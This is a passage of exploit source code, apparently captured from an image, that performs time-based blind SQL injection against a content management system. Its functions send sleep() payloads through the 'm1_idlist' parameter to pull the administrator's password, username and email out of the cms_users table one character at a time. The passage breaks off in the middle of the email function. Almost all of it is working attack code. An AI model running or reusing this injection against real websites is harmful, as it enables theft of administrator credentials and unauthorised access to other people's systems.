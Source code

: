 ```bash
    ord_password_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_password = password + dictionary[i]
            ord_password_temp = ord_password + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_password)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users"
            payload += "+where+password+like+0x" + ord_password_temp + "25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            password = temp_password
            ord_password = ord_password_temp
    flag = True
    output += '\n[+] Password found: ' + password

def dump_username():
    global flag
    global db_name
    global output
    ord_db_name = ""
    ord_db_name_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_db_name = db_name + dictionary[i]
            ord_db_name_temp = ord_db_name + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_db_name)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users+where+username+like+0x" + ord_db_name_temp + "25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            db_name = temp_db_name
            ord_db_name = ord_db_name_temp
    output += '\n[+] Username found: ' + db_name
    flag = True

def dump_email():
    global flag
    global email
    global output
    ord_email = ""
    ord_email_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_email = email + dictionary[i]
            ord_email_temp = ord_email + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_email)
```